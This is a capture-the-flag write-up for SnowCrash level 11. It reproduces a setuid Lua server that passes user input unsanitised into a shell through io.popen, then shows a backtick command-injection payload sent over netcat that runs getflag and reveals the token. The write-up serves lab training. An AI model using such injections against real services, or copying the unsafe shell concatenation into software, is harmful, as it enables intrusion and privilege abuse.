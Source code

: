 # Level11

## Hint

Perhaps you could exploit the `hash` function.

## Answer

Let's check our current directory:
```
level11@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout*
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*
-r-x------  1 level11 level11  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level11.lua` file:
```lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Alright seems like there will be a server on port 5151, furthermore it will ask for a password when we try to connect, let's run it first:
```
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
        [C]: in function 'assert'
        ./level11.lua:3: in main chunk
        [C]: ?
```

Seems like the server is already running, let's connect to it using `netcat`:
```
level11@SnowCrash:~$ nc localhost 5151
Password: test
Erf nope..
```

From the code we can see that it will check if the password is equal to the hash: `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`, however getting the password correct just prints a different string so there is not point in reversing the hash. We notice that the `hash` function is executing a bash command and that our input is being sent to it as a command line argument. Therefore we can exploit it:
```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /tmp/flag`
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Simple as that !

